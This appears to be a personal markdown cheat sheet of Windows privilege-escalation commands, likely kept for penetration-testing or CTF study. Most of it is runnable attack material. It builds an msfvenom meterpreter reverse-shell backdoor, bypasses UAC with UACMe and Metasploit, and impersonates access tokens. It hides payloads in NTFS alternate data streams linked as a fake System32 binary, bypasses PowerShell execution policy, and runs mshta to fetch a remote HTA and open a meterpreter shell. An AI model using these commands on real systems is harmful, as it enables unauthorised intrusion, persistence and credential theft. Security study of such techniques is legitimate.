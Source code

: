 # Windows Privilege Escalation

--------------------------------------------------------------------

## Windows Kernel Exploitation: (Not recommened can cause crashes)

```
Windows NT (Predefined)

Windows-Exploit-Suggester (Github Tool)

Windows-Kernel-Exploits (Github Tool)
```

--------------------------------------------------------------------

## UAC: (need to have an user inside the administrators group)

```
$ net localgroup administrators

UACMe (Github tool)
    
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > backdoor.exe
use multi/handler (same payload as the paylaod)
set same ip and port 
.\Akagi64.exe 23 C:\Temp\backdoor.exe
    

exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
```

--------------------------------------------------------------------

## Windows Access Tokens: (SeImpersonatePrivilege, SeAssignPrimaryToken, SeCreateToken)

```
getprivs

load incognito

list_tokens -u

impoersonate_token “token_name”

migrate to other process
```

--------------------------------------------------------------------

## Alternate Data Streams:

> [!NOTE]
> Is an NTFS (New Tchnology File System) file attribute that was designed to provide compatibility with the MacOS HFS (Hierarchical File System).

> [!NOTE]
> Data stream (default stream that contains data of the file) and Resource stream (typically contains the metadata of the file).

```
notepad text.txt:secret.txt

type paylaod.exe > windowslog.txt:winpeas.exe

start windowslog.txt:windows.exe

cd Windows\System32

mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.exe
```

--------------------------------------------------------------------


## PrivescCHECK - PowerShell script

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML,XML"

powershell -ep bypass (PowerShell execution policy bypass)
. .\PowerUp.ps1
Invoke-PrivescAudit

Decode on powershell

Commands:
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password

runas.exe /user:administrator cmd
```
```
> Basic Mode

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```
```
> Extended Mode + Export Txt Report

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
runas.exe /user:administrator cmd
hello_123321
use exploit/windows/misc/hta_server
Copy the generated payload i.e “[http://10.10.15.2:8080/jxEyD3w.hta”](http://10.10.15.2:8080/jxEyD3w.hta%E2%80%9D) and run it on cmd.exe
with mshta command to gain the meterpreter shell.
mshta.exe http://10.10.15.2:8080/jxEyD3w.hta
```

--------------------------------------------------------------------